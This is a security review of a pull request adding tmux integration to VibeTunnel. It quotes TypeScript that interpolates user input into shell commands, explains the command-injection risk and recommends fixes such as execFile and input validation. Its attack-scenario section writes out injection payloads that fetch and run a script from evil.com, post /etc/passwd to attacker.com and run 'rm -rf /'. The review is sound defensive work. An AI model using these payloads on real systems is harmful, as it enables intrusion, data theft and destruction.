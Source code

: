 # Security Review: PR #460 - Add tmux integration to VibeTunnel

## Critical Security Vulnerabilities Found

This PR contains **CRITICAL COMMAND INJECTION VULNERABILITIES** that make it unsafe to merge. User-controlled input is directly interpolated into shell commands without proper escaping or sanitization.

## Vulnerable Code Locations

### 1. tmux-manager.ts

#### Line 87: Window listing command injection
```typescript
const { stdout } = await execAsync(
  `tmux list-windows -t '${sessionName}' -F '#{session_name}|#{window_index}|#{window_name}|#{?window_active,active,}|#{window_panes}'`,
  { shell: '/bin/sh' }
);
```
**Issue**: `sessionName` is directly interpolated. A malicious session name like `'; rm -rf / #` would execute arbitrary commands.

#### Line 119: Pane listing command injection
```typescript
const { stdout } = await execAsync(
  `tmux list-panes -t '${target}' -F '#{session_name}|#{window_index}|#{pane_index}|#{?pane_active,active,}|#{pane_title}|#{pane_pid}|#{pane_current_command}|#{pane_width}|#{pane_height}|#{pane_current_path}'`,
  { shell: '/bin/sh' }
);
```
**Issue**: `target` is constructed from user input without sanitization.

#### Line 155: Session creation command injection
```typescript
await execAsync(`tmux new-session -d -s '${name}' ${cmd}`);
```
**Issue**: Both `name` and `cmd` are injected directly. The `cmd` is particularly dangerous as it's meant to execute commands.

#### Line 217: Send keys command injection
```typescript
await execAsync(`tmux send-keys -t '${target}' '${command}' Enter`);
```
**Issue**: Both `target` and `command` parameters are vulnerable.

#### Lines 230, 243, 256: Kill commands
```typescript
await execAsync(`tmux kill-session -t '${sessionName}'`);
await execAsync(`tmux kill-window -t '${sessionName}:${windowIndex}'`);
await execAsync(`tmux kill-pane -t '${paneId}'`);
```
**Issue**: All parameters are directly interpolated without escaping.

### 2. zellij-manager.ts

Similar vulnerabilities exist in the Zellij manager where user input is directly passed to shell commands.

### 3. screen-manager.ts

The Screen manager also has the same pattern of vulnerabilities.

## Attack Scenarios

1. **Remote Code Execution**: An attacker could create a session named `'; curl evil.com/script.sh | sh #` to download and execute malicious scripts.

2. **Data Exfiltration**: Session names like `'; cat /etc/passwd | curl -X POST -d @- attacker.com #` could steal sensitive data.

3. **System Destruction**: Names like `'; rm -rf / #` could destroy the system (though modern systems have some protections).

4. **Privilege Escalation**: If the VibeTunnel server runs with elevated privileges, attackers could exploit this to gain higher access.

## Recommended Fixes

### 1. Use execFile Instead of exec
Replace all `exec` and `execAsync` calls with `execFile` which doesn't invoke a shell:

```typescript
import { execFile } from 'child_process';
import { promisify } from 'util';
const execFileAsync = promisify(execFile);

// Safe version:
const { stdout } = await execFileAsync('tmux', [
  'list-windows',
  '-t', sessionName,  // Passed as separate argument, not interpolated
  '-F', '#{session_name}|#{window_index}|#{window_name}|#{?window_active,active,}|#{window_panes}'
]);
```

### 2. Input Validation
Add strict validation for all user inputs:

```typescript
function validateSessionName(name: string): boolean {
  // Only allow alphanumeric, dash, underscore
  return /^[a-zA-Z0-9_-]+$/.test(name);
}

function validateWindowIndex(index: number): boolean {
  return Number.isInteger(index) && index >= 0 && index < 1000;
}
```

### 3. Shell Escaping (Less Preferred)
If you must use shell execution, properly escape all inputs:

```typescript
import { escape } from 'shell-escape';

// Example (though execFile is still preferred):
const escapedName = escape([sessionName]);
await execAsync(`tmux list-windows -t ${escapedName} ...`);
```

### 4. Command Whitelisting
For the `createSession` command parameter, use a whitelist of allowed commands or construct them programmatically rather than accepting arbitrary input.

## Additional Security Concerns

1. **No Rate Limiting**: The API endpoints have no rate limiting, allowing DoS attacks through rapid session creation.

2. **No Authentication**: The multiplexer routes appear to have no authentication, allowing any user to kill sessions.

3. **Resource Limits**: No limits on the number of sessions a user can create.

## Conclusion

**This PR MUST NOT be merged in its current state.** The command injection vulnerabilities present a severe security risk that could lead to complete system compromise. All shell command executions must be refactored to use safe methods before this code can be considered for production use.

## Recommended Actions

1. **Immediate**: Block this PR from merging
2. **Short-term**: Implement all security fixes listed above
3. **Medium-term**: Add security testing to CI pipeline
4. **Long-term**: Security audit of the entire codebase for similar patterns